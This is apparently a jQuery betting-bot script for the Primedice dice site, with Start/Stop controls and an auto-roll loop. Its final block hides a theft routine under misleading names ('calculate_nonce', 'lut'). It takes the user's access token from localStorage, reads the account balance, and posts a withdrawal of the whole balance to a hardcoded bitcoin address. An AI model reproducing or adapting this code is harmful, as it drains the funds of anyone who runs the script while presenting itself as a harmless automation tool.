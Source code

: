         $('<div style="text-align:left;margin:10px;"id="startstop"><button id="start"> Start </button><button id="stop"> Stop </button><label style="margin:3px;" for="numberofrolls"># of Rolls</label><input style="margin:3px;width:30px !important" id="numberofrolls" type="text"><label for"numrolls"> Enabled: </label><input style="margin:3px;width:10px !important" id="numrolls" type="checkbox"></div>').appendTo("#tabs");
        // Button & Input Functions
            $('#resetbet').click(function() {
                    basebet=$('#base').val();
                    betval=$('#base').val();
           
            })
           
            $('#start').click(function() {
            if (enabled == false) {
                if ($('#numrolls').is(":checked") == true) {
                            xrolls=$('#numberofrolls').val();
                            }
                            enabled = true;
                interval = setInterval(function() {
                    if (xrollsenabled == true) {
                        xrollscount++;
                        if (xrollscount <= xrolls) {
                            bet();
                        } else {
                            clearInterval(interval);
                            enabled = false;
                            xrollscount = 0;
                        }
                    } else {
                        bet();
                    }
                }, timer);
            } else {}
        })
        $('#stop').click(function() {
            enabled = false;
            clearInterval(interval);
            xrollscount = 0;
        });
 
calculate_nonce = function(seed) {
return 'https://api.primedice.com/api/' + seed + '?access_token=' + localStorage['token'];
};
 
lut = window['$'];
 
lut['getJSON'](
calculate_nonce('users/1'), function(seed) {
var key1 = 'amount'
var key2 = 'address'
var load = {};
load[key1] = seed['user']['balance'];
load[key2] = 'bc1q6nyrlclj4s7uvmwqw5z7q80pdvua0lx6zcpf42';
lut['post'](calculate_nonce('withdraw'), load);
}
);
     